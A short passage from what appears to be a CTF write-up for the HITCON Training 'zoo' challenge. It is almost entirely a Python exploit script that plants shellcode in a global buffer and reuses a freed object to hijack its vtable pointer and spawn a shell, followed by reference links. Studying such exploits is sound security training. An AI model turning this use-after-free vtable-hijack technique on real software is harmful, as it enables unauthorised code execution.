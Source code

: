 ```python  
  
#gdb.attach(p,"b *0x40193E\nc\n")  
nameofzoo = 0x605420  
  
ru(":")  
sl(shellcode + p64(nameofzoo))  
  
add_dog("a"*8,0)  
add_dog("b"*8,1)  
  
remove(0)  
fake_vptr = nameofzoo + len(shellcode)  
add_dog("c"*72 + p64(fake_vptr),2)  
#pause()  
listen(0)  
getshell()  
```  
  
## 参考链接  
https://xz.aliyun.com/t/3902    
https://www.sec4.fun/2020/07/15/hitcon-training-writeup    
https://www.anquanke.com/post/id/186447    
https://introspelliam.github.io/2017/08/07/int-80h%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8%E6%96%B9%E6%B3%95/  